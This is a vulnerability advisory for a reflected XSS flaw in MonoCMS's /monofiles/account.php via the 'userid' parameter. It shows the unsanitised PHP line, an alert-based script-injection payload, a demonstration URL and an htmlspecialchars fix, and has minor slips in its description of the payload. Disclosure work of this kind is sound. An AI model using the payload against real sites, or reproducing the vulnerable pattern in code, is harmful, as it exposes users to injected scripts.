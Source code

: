 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/account.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/account.php

Injection parameter: `userid`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `userid` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print $_GET['userid'] ?>" hidden>
```

<br />

## Injection Payload Tested:

We set `userid` to:
```
"><script>alert('XSS')</script>
```

<br />

## URL-encoded, this becomes:
```
%22%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Resulting HTML After Injection:
```
<input name="hiddenid" type="text" value=""><script>alert('XSS')</script>" hidden>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the <script> tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS by secuserx"`.

<br />

## Demonstration:

Below is how `/monofiles/account.php` looks like:

<br />

![account.php](https://i.postimg.cc/dV25sxCv/1.png)

<br />

Then we can add our payload `"><script>alert('XSS by secuserx')</script>` :
```
http://localhost:8080/monofiles/account.php?userid="><script>alert('XSS by secuserx')</script>
```

<br />

![payload](https://i.postimg.cc/CKwmzsC8/2.png)

<br />

After submitting the url with the vulnerable parameter `userid` and the XSS payload `"><script>alert('XSS by secuserx')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/pdkk85k6/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print htmlspecialchars($_GET['userid'], ENT_QUOTES, 'UTF-8') ?>" hidden>
```

<br />

> One Click Can Change Everything: Be Secure.

